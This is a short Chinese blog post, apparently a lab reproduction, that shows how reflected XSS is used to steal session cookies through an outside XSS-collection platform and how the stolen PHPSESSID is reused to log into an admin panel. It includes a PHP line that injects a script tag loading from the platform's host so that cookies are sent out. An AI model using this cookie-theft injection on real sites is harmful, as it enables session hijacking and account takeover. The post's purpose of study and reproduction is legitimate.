








# 前言

最新看了一篇hack学习呀【记一次帮助粉丝渗透黑入杀猪盘诈骗的实战】的文章，有个xss的地方自己有点疑问就自己搭平台复现了一下

# phpstudy环境复现

找一个xss平台，如 http://xsscom.com/

随便新建一个项目111，复制下面的代码到存在xss的地方即可



直接找个反射型xss试一下（这里在虚机登录）



这里xss平台获取到用户登录情况



用这个获取到的cookie登录一下后台（在物理机试下）

这里说一下，为了方便可以下载一个修改cookie的插件，如google浏览器的`EditThisCookie`




修改对应的Cookies的PHPSESSID和security的值即可登录



修改cookie后刷新页面



至此已成功利用拿到cookie并登录后台


# 文中案例复现

另外添加如下代码到登录后跳转到的页面index.php做下测试

```php
echo '<script src=http://xsscom.com//xxxxxx></script>';
```



可以看到登录后，平台就收到了cookie

